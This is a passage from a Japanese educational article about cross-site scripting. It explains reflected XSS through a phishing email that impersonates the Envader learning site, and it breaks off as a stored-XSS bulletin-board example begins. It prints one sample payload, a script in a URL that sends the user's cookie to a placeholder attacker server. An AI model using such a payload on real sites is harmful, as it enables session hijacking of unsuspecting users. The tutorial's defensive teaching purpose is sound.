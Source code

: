 反射型XSSの被害に遭う主なケースを以下に挙げます。

1. ユーザに不正なスクリプトを含んだリンクを送信し、そのリンクをクリックしたことで被害に遭うケース
2. 脆弱性のあるサイトに不正なスクリプトを含んだリンクを投稿し、その投稿を閲覧し、クリックした事で被害に遭うケース

今回は、[Envader](https://envader.plus/)を例に挙げて1つ目のケースを分かりやすく解説します。

「Envader」は `https://envader.plus` というURLへアクセスします。そしてLinux基礎コースのチュートリアルには `https://envader.plus/course/1/scenario/1000` へアクセスします。

例えば、攻撃者がEnvaderの運営者を装って次のようなメールを送ってきたとします。
「新しいコースができました！URLは `https://anvader.prus/course/1/scenario/1000<script>location.href="http://攻撃者の用意したサイトのアドレス?"+document.cookie</script>` です。新しいコースに挑戦してみましょう！」

このURLにはいくつかのスクリプトを実行させるような命令が含まれています。
`<script></script>` は、スクリプトを実行させる命令文です。実行させる内容は `location.href="http://攻撃者の用意したサイトのアドレス?"+document.cookie` です。つまり、**利用者のCookieの値を攻撃者のサーバに送信する**というスクリプトが実行されてしまいます。

通常、リンクをクリックするという事は、サーバに対してURLのWebサイトを下さいというリクエストを送り、Webサイトがレスポンスとして返ってきてブラウザが表示します。
不正なスクリプトを含んだリンクをクリックした場合、ブラウザが対象Webサイトを表示される所までは同じですが、ブラウザはもう1つの動作を行います。**リンクに含まれていた不正なスクリプト(利用者のCookieの値を攻撃者のサーバに送信する)を実行する**というものです。
このように、**不正なスクリプトが送信者に返ってきて、ユーザのブラウザで実行されてしまう**ことから**反射型XSS**と呼ばれています 。

今回の一例で挙げた攻撃を回避するには、「**攻撃者の用意した不正なスクリプトを含んだリンクをクリックしない**」ということです。
メールに記載されたURLを良く見れば、「envader.plus」のスペルが違ったりURLが長いなと不審な点に気付くかもしれません。しかし、XSSに詳しくないユーザであれば、油断してリンクをクリックしてしまうかもしれません。ですので、誘導されるような形でURLにアクセスするような場合には十分な注意が必要です。

> **反射型XSSの図の挿入予定**

### 格納型XSS(持続的)

格納型XSSは、まず攻撃者が不正なスクリプトを対象Webサイトに埋め込みます。**不正なスクリプトはWebアプリケーション内部で永続的に保存(格納)され、該当ページをユーザが閲覧するたび(=持続的)に保存された不正なスクリプトが実行される**ことから、「**格納型XSS(持続的**)」と呼ばれています。

格納型XSSを説明する上で「掲示板サイト」を例に挙げて解説します。(ここではphpを用いてXSSが可能なWebサイトを作成し、使用します。)
試しに「ユーザ1」と、「初めての掲示板を使用しました。」と入力して投稿してみます。結果は以下です。

